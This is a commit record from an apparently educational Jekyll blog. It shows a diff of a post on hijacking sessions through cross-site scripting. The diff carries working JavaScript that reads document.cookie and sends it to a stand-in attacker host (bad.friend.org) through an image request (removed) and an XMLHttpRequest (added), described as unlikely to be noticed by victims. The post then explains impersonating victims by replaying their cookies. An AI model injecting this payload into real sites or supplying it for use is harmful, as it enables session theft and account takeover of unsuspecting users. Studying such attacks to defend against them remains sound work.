

Before and after one commit to wsec/basaam0.github.io, a Jekyll site: the page built from _posts/2018-02-18-hijacking.md, in a window 1280 px wide and 1400 px high, scrolled down 759 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update cookie stealing page

```diff
--- a/_posts/2018-02-18-hijacking.md
+++ b/_posts/2018-02-18-hijacking.md
@@ -17,18 +17,13 @@ First, you must create an entry point on the vulnerable website with cross-site
 
 ## JavaScript Injection
 
-For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.
+For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`. This is an example of an **AJAX** request, which is unlikely to be noticed by victims.
 
 {% highlight javascript linenos %}
 
 let yourCookie = encodeURI(document.cookie);
+url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
 
-// retrieve an image from the server, but send the victim's cookies as well.
-let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
-document.getElementsByTagName('image')[0].src = url;
-
-// AJAX - Unnoticed by the typical user, low-profile payload
-url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
 let xhr = new XMLHttpRequest();
 xhr.open('GET', url, true);
 xhr.send();
@@ -55,3 +50,7 @@ http.createServer((req, res) => {
 {% endhighlight %}
 
 You can impersonate victims by spoofing their unique cookie. The Chrome extension [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) is easy to use.
+
+## Alternative Approaches
+
+Your situation might constrain the available options. More examples are available on [Github](https://github.com/twlinux/lets-talk/tree/master/examples).
```
